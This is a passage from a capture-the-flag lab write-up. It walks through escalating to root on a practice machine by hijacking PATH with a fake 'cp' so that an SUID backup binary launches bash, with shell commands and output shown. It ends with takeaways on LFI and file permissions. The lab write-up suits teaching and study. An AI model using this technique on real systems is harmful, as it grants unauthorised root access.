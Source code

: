    So, whenever the `cp` command is called `/bin/bash` would get executed with the permission of the effective user (in case of SUID binary, it would be `root`).

2. Make the file accessible and executable by all

   ```bash
   archangel@ubuntu:/tmp$ chmod 777 cp
   ```

3. Prepend `/tmp` to `$PATH`

   ```bash
   archangel@ubuntu:~/secret$ $PATH            
   $PATH
   bash: /usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory
   archangel@ubuntu:~/secret$ export PATH=/tmp:$PATH
   export PATH=/tmp:$PATH
   archangel@ubuntu:~/secret$ $PATH
   $PATH
   bash: /tmp:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin: No such file or directory
   ```

4. Run the SUID binary

   ```bash
   archangel@ubuntu:~/secret$ ./backup
   ./backup
   root@ubuntu:~/secret# whoami
   whoami
   root
   root@ubuntu:~/secret# cd /root
   cd /root
   root@ubuntu:/root# cat root.txt
   ```

And we get the access to the machine as `root`!

## Some Key Points to Take Away

1. Whenever you suspect an LFI, try different method with both relative and absolute addressing.
2. Always look for files with misconfigured file permission.

## Mind Maps

1. Enumeration
